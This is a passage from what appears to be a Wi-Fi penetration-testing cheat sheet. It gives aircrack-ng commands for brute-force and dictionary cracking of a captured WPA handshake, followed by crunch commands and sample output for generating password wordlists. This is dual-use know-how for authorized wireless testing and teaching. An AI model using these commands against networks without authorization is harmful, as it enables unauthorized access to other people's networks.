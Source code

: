 6. Crack password using crunch and aircack-ng

```
# crunch 14 14 '(#R3!neL$yl)' | aircrack-ng -a2 -b BC:98:89:9D:3C:58 -w - /home/sherwinowen/Desktop/wifi/bf_test-01.cap
```



## Method 2: Dictionary Attack

Start dictionary attack with Aircrack

```
# aircrack-ng -a2 -b BC:98:89:9D:3C:58 -w /dictionary/wordlist /wifi/bf_test-01.cap
```

- -b BSSID

- -w [POSSIBLE_PASSWORDS_FILE.TXT] [PATH_TO_WPA_HANDSHAKE_FILES*.cap]

  

## Generate wordlist using crunch

```
# Generating wordlist using the character string
crunch 3 4 raj -o /root/Desktop/1.txt

# Generating alpha-numeric wordlist
crunch 2 3 raj123 -o /root/Desktop/3.txt

# Generating wordlist along with space character
crunch 1 3 raj\ -o /root/Desktop/4.txt

# Create wordlist using character set file of RainbowCrack
crunch 4 5 -f /usr/share/rainbowcrack/charset.txt loweralpha-numeric -o /root/Desktop/5.txt

# Generate wordlist with specific Pattern
Using option –t you can generate 4 type patters as specified below:
- Use @ for lowercase alphabets
- Use , for uppercase alphabets
- Use % for numeric character
- Use ^ for special character symbol
crunch 6 6 -t raj%%% -o /root/Desktop/6.txt

# Generate wordlist with Duplicate character limit
crunch 6 6 -t raj%%% -d 2% -o /root/Desktop/6.1.txt

# Use Permutation for generating a wordlist
crunch 3 6 -p raj chandel hackingarticles
Crunch will now generate approximately the following amount of data: 156 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 6 
chandelhackingarticlesraj
chandelrajhackingarticles
hackingarticleschandelraj
hackingarticlesrajchandel
rajchandelhackingarticles
rajhackingarticleschandel

# Generate a Dictionary with limited words
crunch 5 5 IGNITE -c 25 
Crunch will now generate the following amount of data: 150 bytes
0 MB
```